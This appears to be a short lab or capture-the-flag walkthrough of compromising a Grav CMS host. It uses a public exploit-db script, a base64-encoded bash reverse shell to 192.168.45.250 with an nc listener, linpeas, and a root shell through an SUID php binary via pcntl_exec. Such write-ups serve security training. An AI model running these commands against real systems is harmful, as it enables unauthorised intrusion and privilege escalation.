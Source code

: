 ![](../attachment/c939292a1b863167b29ab74b7ddbdb69.png)

We can search for exploits:
```
searchsploit grav
```
![](../attachment/5daa8384df7e1398aef429006c213a17.png)
Using this exploit:
```
searchsploit -m php/webapps/49973.py
```
```
subl 49973.py
```
Replaced the following values:
![](../attachment/7f5fd10883bd486a861355b2619bb30c.png)
The base64 replaced with:
```
echo -ne "bash -i >& /dev/tcp/192.168.45.250/80 0>&1" | base64 -w0
```
Then start a listener on port 80:
```
sudo rlwrap nc -nlvp 80
```
We get a shell;
```
python3 49973.py
```
![](../attachment/08ed0188a390b34fd29f5c496b45ec26.png)

Running linpeas.sh:
![](../attachment/78c674433a17f2f5d460754b151b28a5.png)
We found an SUID binary.

Running this to get root:
```
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```
![](../attachment/af8c7227049e2176f72db35179de5db8.png)